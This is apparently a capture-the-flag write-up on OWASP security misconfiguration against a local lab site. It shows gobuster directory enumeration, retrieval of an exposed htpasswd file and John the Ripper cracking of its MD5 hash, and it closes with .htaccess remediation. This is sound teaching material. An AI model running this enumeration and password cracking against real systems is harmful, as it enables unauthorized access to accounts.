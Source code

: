 ## [Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)

A common tool for file enumeration is called [gobuster](https://github.com/OJ/gobuster). It allows to find URLs on a website that are not accessible through hyperlinks:

```console
$ gobuster dir -u http://localhost:8080/ -w KaliLists/dirb/big.txt --exclude-length 975
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                KaliLists/dirb/big.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 193] [--> http://localhost/admin/]
/audio                (Status: 301) [Size: 193] [--> http://localhost/audio/]
/css                  (Status: 301) [Size: 193] [--> http://localhost/css/]
/errors               (Status: 301) [Size: 193] [--> http://localhost/errors/]
/favicon.ico          (Status: 200) [Size: 1406]
/fonts                (Status: 301) [Size: 193] [--> http://localhost/fonts/]
/images               (Status: 301) [Size: 193] [--> http://localhost/images/]
/includes             (Status: 301) [Size: 193] [--> http://localhost/includes/]
/js                   (Status: 301) [Size: 193] [--> http://localhost/js/]
/robots.txt           (Status: 200) [Size: 53]
/whatever             (Status: 301) [Size: 193] [--> http://localhost/whatever/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Several files and folders are of interest here since we didn't find them by clicking through the website: `/admin`, `/robots.txt` and `/whatever`.

The `robots.txt` file has the following content:

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden # used for another vulnerability
```

Inside `/whatever`, there is a file `htpasswd`, a common filename for basic authentification in Apache, with what appears to be admin credentials: `root:437394baff5aa33daa618be47b75cb49`.

The [dcode cipher identifier](https://www.dcode.fr/cipher-identifier) shows that the value is likely MD5, but its [MD5 decoder](https://www.dcode.fr/md5-hash) fails to decode the value.

We use a stronger MD5 decoder, [John the Ripper](https://www.openwall.com/john/), which finds the correct password:

```console
$ john --format=Raw-MD5 security_misconfiguration/resources/htpasswd
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=20
Proceeding with single, rules:Single
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:00 DONE 1/3 (2025-05-23 17:25) 0g/s 49250p/s 49250c/s 49250C/s Root1909..Root1900
Proceeding with wordlist:/tmp/tmprw0oww41/password.lst
Enabling duplicate candidate password suppressor
qwerty123@       (root)
1g 0:00:00:00 DONE 2/3 (2025-05-23 17:25) 7.142g/s 3720Kp/s 3720Kc/s 3720KC/s tanya74..Miracles
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

We login with `root` and `qwerty123@` on `/admin` and get the flag.

Once again, `robots.txt` is not a security measure. The `htpasswd` file shouldn't be readable by a user who knows or finds its URL.

In Apache, the `htpasswd` file is generally protected with a `.htaccess` file with content similar to this:

```
ErrorDocument 401 "Authorisation Required"
AuthType Basic
AuthUserFile /path/to/.htpasswd
Require user username
Satisfy All
```
